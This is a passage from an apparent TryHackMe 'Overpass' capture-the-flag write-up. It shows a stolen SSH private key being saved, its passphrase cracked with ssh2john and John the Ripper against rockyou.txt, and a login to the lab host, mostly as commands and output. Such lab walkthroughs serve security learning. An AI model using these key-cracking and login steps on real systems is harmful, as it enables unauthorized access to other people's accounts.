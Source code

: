 ```
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----' > james_private_key.txt
attacker@AttackBox:~/Documents/THM/CTF/Overpass$ chmod 600 james_private_key.txt 
attacker@AttackBox:~/Documents/THM/CTF/Overpass$ ssh james@10.10.241.137 -i james_private_key.txt 
The authenticity of host '10.10.241.137 (10.10.241.137)' can't be established.
ECDSA key fingerprint is SHA256:4P0PNh/u8bKjshfc6DBYwWnjk1Txh5laY/WbVPrCUdY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.241.137' (ECDSA) to the list of known hosts.
Enter passphrase for key 'james_private_key.txt':
```

It asks for a passphrase. 

## Get a shell

We can try to crack the passphare for the SSH private key using [John The Ripper](https://github.com/openwall/john) and [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) :  
```
attacker@AttackBox:~/Documents/THM/CTF/Overpass$ ssh2john james_private_key.txt > james_private_key.hash
attacker@AttackBox:~/Documents/THM/CTF/Overpass$ john james_private_key.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
james13          (james_private_key.txt)     
1g 0:00:00:00 DONE (2022-10-19 21:53) 14.28g/s 191085p/s 191085c/s 191085C/s lespaul..handball
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We successfully cracked the passphrase for the SSH private key, now we can log in on SSH with the private key :  
```
attacker@AttackBox:~/Documents/THM/CTF/Overpass$ ssh james@10.10.241.137 -i james_private_key.txt 
Enter passphrase for key 'james_private_key.txt': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Oct 19 19:55:30 UTC 2022

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 16%                IP address for eth0: 10.10.241.137
  Swap usage:   0%


```